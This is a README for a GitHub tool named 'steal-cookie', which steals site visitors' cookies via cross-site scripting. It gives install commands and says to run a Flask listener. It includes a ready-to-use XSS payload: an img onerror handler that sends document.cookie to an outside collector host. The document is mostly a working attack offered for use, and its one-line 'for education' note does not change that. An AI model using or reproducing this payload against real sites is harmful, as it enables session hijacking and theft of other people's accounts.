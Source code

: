 # steal-cookie
steal cookies from website using xss :)

# Requirements :
- python2
- flask module

# install requirements (Linux) :

````
$ apt install python2
````

````
$ apt install python2-pip
````

````
git clone https://github.com/knassar702/steal-cookie
````

````
$ pip install flask
````

# Run It :
 
 ````
 python2 xss.py
 ````
 
# stealing cookie using xss :

 <h2>enter the cookie in this url </h2>
 
 ````http://YOUR_IP/cookie?cookie=COOKIE```` 

# Payload :
  
  ````
  "><img src="x" onerror='document.location="http://xss-exploiter/cookie?cookie=" + document.cookie'>
  ````
  
 # Note :
    
    This Tool For education .. Good Luck ^_^

# My Links :

<a href="https://www.facebook.com/profile.php?id=100015121337012" > <h3> Facebook </h3></a>

